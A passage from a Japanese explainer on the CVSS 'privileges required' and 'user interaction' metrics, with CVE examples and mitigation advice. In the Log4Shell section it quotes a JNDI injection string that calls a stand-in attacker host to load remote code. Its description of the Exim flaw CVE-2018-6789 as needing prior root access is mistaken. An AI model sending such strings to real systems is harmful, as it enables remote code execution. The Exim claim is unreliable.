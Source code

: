 
### **2. PR:L（低） - 権限昇格の事例**
- **脆弱性例:** CVE-2022-26925 (Windows Kerberos認証の特権昇格)  
- **攻撃内容:** 通常のドメインユーザー権限を持っている攻撃者が、特定のパケットを偽装することで、ドメインコントローラーの権限を取得可能。  
- **解説:** **PR:L** の脆弱性は、一般ユーザーのアカウントが侵害された際に重大な影響を及ぼすため、迅速なパッチ対応が必要です。  

---

### **3. PR:H（高） - 攻撃が困難な事例**
- **脆弱性例:** CVE-2018-6789 (Eximメーラーの脆弱性)  
- **攻撃内容:** 攻撃者は Exim メールサーバーの「root権限」をすでに取得している状態で、バッファオーバーフロー攻撃を行うことで追加のシステム改変が可能。  
- **解説:** **PR:H** の脆弱性は、事前に高度な権限を持っている必要があるため、重大度は相対的に低く評価されることが多いです。  

---

## 🚨 **まとめ**
| 必要な特権レベル (PR) | 条件の特性 | 影響度 |
|------------------------|--------------|----------|
| **PR:N** (なし)            | 誰でも攻撃が可能 → **最も危険** | **リスクが最も高い** |
| **PR:L** (低)             | 一般ユーザー権限が必要 → **やや危険** | **対処が重要** |
| **PR:H** (高)             | 管理者権限が必要 → **影響は限定的** | **対応優先度は低め** |

---

## 💡 **対策のポイント**
- **PR:N** の脆弱性は、**最優先での対応**が必要。攻撃者が外部から無差別に攻撃できるため、企業システム全体に被害が及ぶリスクがあります。  
- **PR:L** の脆弱性は、**ユーザー権限の管理**が重要。脆弱なアカウントが悪用されることが多いため、**最小権限の原則**（Principle of Least Privilege, PoLP）の導入が有効です。  
- **PR:H** の脆弱性は、特権アカウントの厳格な管理が重要で、**多要素認証 (MFA)** の導入や**ログ監視**が効果的です。

# ユーザ関与レベル（User Interaction, UI）

**ユーザ関与レベル (User Interaction, UI)** は、攻撃が成立するために**ユーザーが何らかの行動をとる必要があるか**を示す指標です。CVSS (Common Vulnerability Scoring System) では、以下の2つのレベルに分類されます。

| ユーザ関与レベル (UI) | 説明 | 具体例 |
|------------------------|-------|---------|
| **UI:N (None / なし)**  | 攻撃者がユーザーの関与なしに脆弱性を悪用できる場合。<br>リモートから自動的に悪用が可能で、最も危険なカテゴリ。 | - **CVE-2021-44228 (Log4Shell)**<br>→ 攻撃者が特定のリクエストを送るだけでリモートコード実行が可能。 |
| **UI:R (Required / 必要)** | 攻撃の成功には、ユーザーがメールの添付ファイルを開く、悪意のあるリンクをクリックするなど、何らかの行動が必要な場合。 | - **CVE-2023-23397 (Outlookの権限昇格の脆弱性)**<br>→ 攻撃者が悪意のあるカレンダー招待を送り、ユーザーがその通知を開いた場合に悪用可能。 |

---

## 🔍 **具体的な攻撃事例とUI評価**
### **1. UI:N（なし） - ユーザーの関与が不要な事例**
- **脆弱性例:** Log4Shell (CVE-2021-44228)  
- **攻撃内容:**  
  攻撃者がターゲットアプリケーションに特定の文字列 (`${jndi:ldap://malicious.com/a}`) を送信するだけで、リモートコード実行が成立。  
- **評価:** **UI:N** → ユーザーの行動は不要で、サーバーの脆弱性のみで攻撃が成立するため、非常に危険。  
- **対策:** 直ちにパッチ適用が推奨。  

---